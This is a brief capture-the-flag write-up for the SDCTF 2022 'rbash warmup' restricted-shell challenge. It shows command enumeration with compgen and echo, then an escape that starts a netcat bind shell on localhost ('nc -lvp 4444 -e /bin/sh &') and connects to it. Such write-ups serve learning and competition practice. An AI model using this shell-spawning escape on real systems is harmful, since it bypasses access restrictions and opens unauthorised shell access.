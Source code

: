 ```yaml
---
layout: load_md
title: The White Circle | Sdctf 2022 | rbash warmup Writeup
desc: Check out our writeup for rbash warmup for Sdctf 2022 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Sdctf 2022
parent: sdctf_2022
category: jail
challenge: rbash warmup
tags: "jail, twh, rbash, escape"
date: 2022-05-10T00:00:00+00:00
last_modified_at: 2022-05-10T00:00:00+00:00
---
```



> Solved By : thewhiteh4t

we can use `compgen` to check for available commands

```
compgen -c
```

![](https://i.imgur.com/bLD71b6.png)


another way is to use `echo`


![](https://i.imgur.com/chEZt6C.png)


now the known way of escaping with `nc` is by getting a shell on our “attacker” box but in this challenge we are not allowed to connect to remote machines so we are left with localhost

actually this is more easy…

```
nc -lvp 4444 -e /bin/sh &
```

![](https://i.imgur.com/DmtwlOo.png)


now we can connect to it !


![](https://i.imgur.com/JiBB1By.png)

